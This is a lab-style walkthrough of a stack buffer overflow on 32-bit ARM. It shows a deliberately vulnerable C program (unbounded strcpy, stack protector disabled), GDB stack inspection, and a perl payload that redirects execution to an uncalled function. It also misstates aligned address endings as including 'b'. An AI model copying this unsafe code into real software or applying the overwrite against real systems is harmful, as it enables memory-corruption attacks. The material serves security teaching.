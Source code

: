 # ARM Buffer overflow

## file

challenge41.c:
```c
#include <stdio.h>
#include <stdlib.h>

void IShouldNeverBecalled() {
    printf("I should never be called");
    fflush(stdout);
    exit(0);
}

void vulnerable(char *arg) {
    char buff[16];
    strcpy(buff, arg);
}

void main(int argc, char **argv) {
    vulnerable(argv[1]);
    return(0);
}
```

Compile it:
```sh
gcc -ggdb challenge41.c -o challenge41 -fno-stack-protector
```


## Info gathering

Lets check the main function:
```sh
$ gdb challenge41

(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Lets check the vulnerable function:
```
(gdb) disas vulnerable
Dump of assembler code for function vulnerable:
   0x000104d8 <+0>:     push    {r7, lr}
   0x000104da <+2>:     sub     sp, #24
   0x000104dc <+4>:     add     r7, sp, #0
   0x000104de <+6>:     str     r0, [r7, #4]
   0x000104e0 <+8>:     add.w   r3, r7, #8
   0x000104e4 <+12>:    ldr     r1, [r7, #4]
   0x000104e6 <+14>:    mov     r0, r3
   0x000104e8 <+16>:    blx     0x10394 <strcpy@plt>
   0x000104ec <+20>:    nop
   0x000104ee <+22>:    adds    r7, #24
   0x000104f0 <+24>:    mov     sp, r7
   0x000104f2 <+26>:    pop     {r7, pc}
End of assembler dump.
(gdb)
```

## Overflow

```
(gdb) b *0x000104f2
Breakpoint 1 at 0x104f2: file vuln.c, line 13.

(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`
Starting program: /root/challenges/challenge41/challenge41 `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef93f "AAAABBBBCCCCDDDDEEEEaaaa") at challenge41.c:13
13      }

(gdb) x/16x $sp
0xfffef6c8:     0x45454545      0x61616161      0xfffef800      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x1c59d9a6      0x14c8073b      0x0000012c      0x00000000
```

Compare it with original execution (without overflow):
```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDD"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge41/challenge41 `perl -e 'print "AAAABBBBCCCCDDDD"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef947 "AAAABBBBCCCCDDDD") at challenge41.c:13
13      }
(gdb) x/16x $sp
0xfffef6c8:     0xfffef600      0x0001050b      0xfffef834      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x5695adca      0x5e047357      0x0000012c      0x00000000
```

Check address `0x0001050b`:
```
(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Seems the address on the stack is pointing to the `nop` at address `0x0001050a`.
But the saved address is `0x0001050b`, so 1 byte higher. Lets keep this in mind.

Note that ARM is 4 byte aligned (32 bit), so valid addresses always end with 0, 4, 8, b.
But in thumb mode, instructinos are 2 byte (16 bit).

## Execute another function

get address of IShouldNeverBecalled():
```
(gdb) disas IShouldNeverBecalled
Dump of assembler code for function IShouldNeverBecalled:
   0x000104b0 <+0>:     push    {r7, lr}
   0x000104b2 <+2>:     add     r7, sp, #0
   0x000104b4 <+4>:     movw    r0, #1376       ; 0x560
   0x000104b8 <+8>:     movt    r0, #1
   0x000104bc <+12>:    blx     0x1037c <printf@plt>
   0x000104c0 <+16>:    movw    r3, #4148       ; 0x1034
   0x000104c4 <+20>:    movt    r3, #2
   0x000104c8 <+24>:    ldr     r3, [r3, #0]
   0x000104ca <+26>:    mov     r0, r3
   0x000104cc <+28>:    blx     0x10388 <fflush@plt>
   0x000104d0 <+32>:    movs    r0, #0
   0x000104d2 <+34>:    blx     0x103b8 <exit@plt>
```

The address we want to jump to is `0x000104b0`. But, as we have seen in the previous
chapter, we need to increment it by one byte: `0x000104b1`.

Lets try this:

```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`
Starting program: /root/challenges/challenge41/challenge41 `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`

I should never be called
```

## Conclusion

Here, Ubuntu 16.04 on arm 32 bit behaves pretty much exactly the same as x86.
Stack grown down, we have little endianness, and the return address is on the stack.
The only big difference is the ARM assembly codes.
